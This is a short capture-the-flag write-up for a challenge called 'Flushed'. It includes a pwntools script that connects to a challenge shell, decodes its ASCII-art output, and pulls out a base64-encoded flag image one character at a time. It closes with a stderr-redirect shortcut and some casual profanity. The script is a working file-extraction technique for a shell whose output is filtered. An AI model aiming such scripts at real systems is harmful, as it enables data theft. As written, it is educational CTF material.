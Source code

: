 # Flushed

We get a shell, and get the output in large ascii text. There's a PNG of the flag. Here's my script \(stupid probably\). I got 1/3 of the image and guessed the rest lol

```python
from pwn import *
host = ("jh2i.com", 50015)

import string
mapc = {}

r = remote(*host)

def runCmd(cmd):
    r.clean()
    r.sendline(cmd)
    return r.clean(timeout=0.3).split(b"\r\n")[2:8]


for c in string.printable:
    mapc[c] = runCmd(f"echo '{c}'")

def lookup(val):
    for k, v in mapc.items():
        if v == val:
            return k


def readOutput(cmd):
    template = "expr substr $({}) {} 1"
    output = ""
    pos = 1
    for c in range(1, 9293):
        out = runCmd(template.format(cmd, c))
        char = lookup(out)
        print(char, end='')
        output += char
    return output

print(readOutput("base64 flag.png -w0"))
```

### Flag:flag{flushed\_down\_the\_toilet\_but\_rescued\_again}

## Tony's challenge afterthoughts:

OH MY GOD I COULD HAVE CHEESED IT

ONLY STDOUT IS ASCII-ARTED

SO

`base64 -w0 flag.png 1>&2`

FUCKING YEAH DOES IT REEEEEEEEEEEEEEEEEEEEEEEEEE

